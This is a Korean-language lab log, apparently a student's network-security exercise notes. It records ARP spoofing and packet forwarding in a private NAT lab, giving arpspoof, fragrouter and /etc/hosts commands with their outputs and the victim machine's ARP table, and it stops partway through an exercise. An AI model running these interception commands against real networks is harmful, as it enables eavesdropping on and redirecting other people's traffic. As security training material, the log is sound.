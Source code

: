 ```
192.168.0.27 naver.com
192.168.10.134 google.com

[samadal@kali ~]$ sudo fragrouter -B1
fragrouter: base-1: normal IP forwarding
192.168.10.130.63314 > 8.8.8.8.53: udp 28
192.168.10.130.58844 > 8.8.8.8.53: udp 28


192.168.0.1 naver.com
192.168.10.134 google.com

[samadal@kali ~]$ sudo fragrouter -B1
fragrouter: base-1: normal IP forwarding
192.168.10.130.64830 > 8.8.8.8.53: udp 28
```
아무 변화 없다 <br>

--- 
## 응용 실습 3. Packet Forwarding 2. GET

### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.2
- 확인(Windows 10)       192.168.10.130 / c / 192.168.10.2 / 8.8.8.8
``` 
## Step 1. 'Packet Forwarding'을 위한 환경 구성
> 호스트 변경<br>

```
(kali) vi /etc/hosts
192.168.0.38 naver.com          -> Host OS의 IP주소
192.168.10.134 google.com       -> kali의 IP주소
```
## Step 2. ARP Spoofing 명령 실행

> 스푸핑을 때린다
```
[samadal@kali ~]$ sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
0:c:29:b2:4:58 0:c:29:be:47:cb 0806 42: arp reply 192.168.10.2 is-at 0:c:29:b2:4:58
```
이 화면은 그대로 둔다.

## Step 3. 'Packet Forwarding'명령 실행 (화면이 멈춘것처럼 되어 있어도 정상)

> 신규 터미널창은 하나 더 열고 실행 <br>
> 현재 window10 주소
```
C:\Users\Administrator>arp -a

인터페이스: 192.168.10.130 --- 0x6
  인터넷 주소           물리적 주소           유형
  192.168.10.2          00-50-56-e0-28-a3     동적
  192.168.10.255        ff-ff-ff-ff-ff-ff     정적
  224.0.0.22            01-00-5e-00-00-16     정적
  224.0.0.251           01-00-5e-00-00-fb     정적
  224.0.0.252           01-00-5e-00-00-fc     정적
```

